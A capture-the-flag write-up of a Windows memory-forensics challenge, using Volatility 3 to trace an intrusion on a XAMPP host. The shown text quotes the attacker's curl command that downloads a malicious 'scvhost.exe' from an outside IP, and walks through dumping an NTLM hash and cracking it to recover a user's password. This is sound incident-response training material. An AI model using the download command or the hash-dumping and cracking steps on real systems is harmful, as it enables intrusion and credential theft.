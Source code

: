 # Mellitus

## Speech
```
You’ve been a SOC analyst for the last 4 years but you’ve been honing your incident response skills! It’s about time you bite the bullet and go for your dream job as an Incident Responder as that’s the path you’d like your career to follow. Currently you are going through the interview process for a medium size incident response internal team and the cocky interviewing responder has given you a tough technical challenge to test your memory forensics aptitude. Can you get all the questions right and secure the job?
```

## Analysis
1. Looks like vm snapshot :
```
memory_dump.vmem: Windows Event Trace Log
memory_dump.vmsn: data
```
2. Looks like we can analyse with volatility...
3. Beginning with cmdline module : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.cmdline` (why ? To see weird launched process easily, process list are often too big and hard to look at)
    - I just put a little part of the output because they are a lot of things in this capture
    ```
    11204	httpd.exe	c:\xampp\apache\bin\httpd.exe
    9128	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
    5212	mysqld.exe	"c:\xampp\mysql\bin\mysqld.exe" --defaults-file="c:\xampp\mysql\bin\my.ini" --standalone
    9652	httpd.exe	C:\xampp\apache\bin\httpd.exe -d C:/xampp/apache
    11048	FileZillaServe	c:\xampp\filezillaftp\filezillaserver.exe -compat -start
    4276	cmd.exe	"C:\Windows\sysnative\cmd.exe" /c "c:\xampp\catalina_start.bat"
    8568	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
    2696	java.exe	"C:\Program Files\Java\jdk-20\bin\java.exe"  -Djava.util.logging.config.file="C:\xampp\tomcat\conf\logging.properties" -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager  -Djdk.tls.ephemeralDHKeySize=2048 -Djava.protocol.handler.pkgs=org.apache.catalina.webresources   -Dignore.endorsed.dirs="" -classpath "C:\xampp\tomcat\bin\bootstrap.jar;C:\xampp\tomcat\bin\tomcat-juli.jar" -Dcatalina.base="C:\xampp\tomcat" -Dcatalina.home="C:\xampp\tomcat" -Djava.io.tmpdir="C:\xampp\tomcat\temp" org.apache.catalina.startup.Bootstrap  start
    1272	dllhost.exe	C:\Windows\system32\DllHost.exe /Processid:{973D20D7-562D-44B9-B70B-5A0F49CCDF3F}
    10048	cmd.exe	"C:\Windows\system32\cmd.exe" 
    10040	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
    9872	FileZilla Serv	"C:\xampp\filezillaftp\filezilla server interface.exe" 
    9880	FileZilla Serv	"C:\xampp\filezillaftp\filezilla server interface.exe" 
    8188	svchost.exe	C:\Windows\system32\svchost.exe -k netsvcs -p -s gpsvc
    5708	chrome.exe	"C:\Program Files\Google\Chrome\Application\chrome.exe" --type=utility --utility-sub-type=audio.mojom.AudioService --lang=en-GB --service-sandbox-type=audio --mojo-platform-channel-handle=6532 --field-trial-handle=2084,i,1830137358761159386,540347442219807616,262144 /prefetch:8
    6772	powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 
    4532	conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4
    4964	chrome.exe	"C:\Program Files\Google\Chrome\Application\chrome.exe" --type=renderer --disable-nacl --origin-trial-disabled-features=WebGPU --lang=en-GB --device-scale-factor=1 --num-raster-threads=1 --renderer-client-id=59 --time-ticks-at-unix-epoch=-1698759050284302 --launch-time-ticks=800723363 --mojo-platform-channel-handle=6588 --field-trial-handle=2084,i,1830137358761159386,540347442219807616,262144 /prefetch:1
    5116	mspaint.exe	"C:\Windows\system32\mspaint.exe" 
    ```
    - We can see an xampp server (httpd, mysql, etc.) on the machine
    - We also see powershell.exe which is interesting
4. Then we can look at the process tree and focus on what could be intersting from what we saw previously :
    - The command : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.pstree`
    ```
    ******* 6772	1424	powershell.exe	0xc40aa9de7080	11	-	4	False	2023-10-31 13:42:21.000000 	N/A	\Device\HarddiskVolume4\Windows\System32\WindowsPowerShell\v1.0\powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" 	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
    ******** 11156	6772	scvhost.exe	0xc40aa8cc8080	0	-	4	True	2023-10-31 13:50:20.000000 	2023-10-31 13:51:36.000000 	\Device\HarddiskVolume4\Users\BantingFG\Downloads\scvhost.exe	-	-
    ******** 4532	6772	conhost.exe	0xc40aaa8de4c0	3	-	4	False	2023-10-31 13:42:22.000000 	N/A	\Device\HarddiskVolume4\Windows\System32\conhost.exe	\??\C:\Windows\system32\conhost.exe 0x4	C:\Windows\system32\conhost.exe
    ```
5. To take a look at what the powershell do I try to recover the history file but she is not here
    - So let's recover the evtx to see if we have something in it : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.dumpfile --virtaddr 0xc40aab362c20` --> the virtaddr is the one of the `\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx` file
    - Nothing in it !


## Questions
1. What was the time on the system when the memory was captured?
    > 2023-10-31 13:59:26
    - Using : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.info`
    - We have the **systemTime**  which correspond to the time of the system at the time of the dump, newest time
2. What is the IP address of the attacker?
    > 192.168.157.151
    - I used : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.netscan`
    - I saw one **ESTABLISHED** with a port different than 443
3. What is the name of the strange process?
    > Scvhost.exe
    - cf. Analysis > 4
4. What is the PID of the process that launched the malicious binary?
    > 6772
    - cf. Analysis > 3
    - PID of the powershell process
5. What was the command that got the malicious binary onto the machine?
    > curl -o scvhost.exe http://192.168.157.151:8000/scvhost.exe
    - I didn't find the command but doing that gave it to me : `strings memory_dump.vmem| grep -i 'scvhost'`
6. The attacker attempted to gain entry to our host via FTP. How many users did they attempt?
    > 3
    - In order to find this : `strings memory_dump.vmem| grep -i -a20 -b20 '331 Password required for'`
7. What is the full URL of the last website the attacker visited?
    > https://stackoverflow.com/questions/38005341/the-response-content-cannot-be-parsed-because-the-internet-explorer-engine-is-no
    - I downloaded the following files : `0xc40aa9259df0 \Users\BantingFG\AppData\Local\Google\Chrome\User Data\Default\History	216`
    ```
    -rw------- 1 kali kali     524288 May 31 17:38  file.0xc40aa9259df0.0xc40aa4ec6be0.SharedCacheMap.History.vacb
    ```
    - Open with sqlitebrowser and we find the last visited url in the `urls` table
8. What is the affected users password?
    > flowers123
    - Using : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.hashdump`
    - We get : `BantingFG 1002 aad3b435b51404eeaad3b435b51404ee 5a4a40e43197cd4dfb7c72e691536e92`
    - Put `5a4a40e43197cd4dfb7c72e691536e92` on crackstation, we get the password of the user
9. There is a flag hidden related to PID 5116. Can you confirm what it is?
    > you_Foundme!
    - https://ctftime.org/writeup/23198
    - we saw a mspaint opened, we dump it with : `/opt/volatility3/vol.py -f ./memory_dump.vmem windows.memmap --pid 5116 --dump`
    - Then open in Gimp as `Raw Image Data`
    - Play with the `offset` `width` and `high` (my value are : 310074314 1794 1030)